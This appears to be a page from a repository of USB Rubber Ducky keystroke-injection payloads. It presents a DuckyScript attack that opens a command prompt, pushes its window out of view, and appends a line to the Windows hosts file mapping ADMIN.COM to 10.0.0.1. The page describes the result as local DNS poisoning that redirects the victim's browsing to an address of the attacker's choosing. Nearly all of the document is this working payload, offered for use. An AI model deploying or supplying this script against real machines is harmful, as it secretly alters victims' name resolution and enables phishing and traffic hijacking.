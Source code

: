 The following is a local DNS poisoning attack that changes a hosts 'host' file. The host will then be redirected to the website of your choice (IP Address), every time the user types in the given domain name in their browser. 

```
REM Author:ashbreeze96 and overwraith
GUI r
STRING cmd /Q /D /T:7F /F:OFF /V:ON /K
DELAY 500
ENTER
DELAY 750
ALT SPACE
STRING M
DOWNARROW
REPEAT 100
ENTER
DELAY 50
STRING ECHO. >> C:\WINDOWS\SYSTEM32\DRIVERS\ETC\HOSTS
DELAY 50
ENTER
DELAY 50
STRING ECHO 10.0.0.1 ADMIN.COM >> C:\WINDOWS\SYSTEM32\DRIVERS\ETC\HOSTS
DELAY 50
ENTER
STRING exit
ENTER
```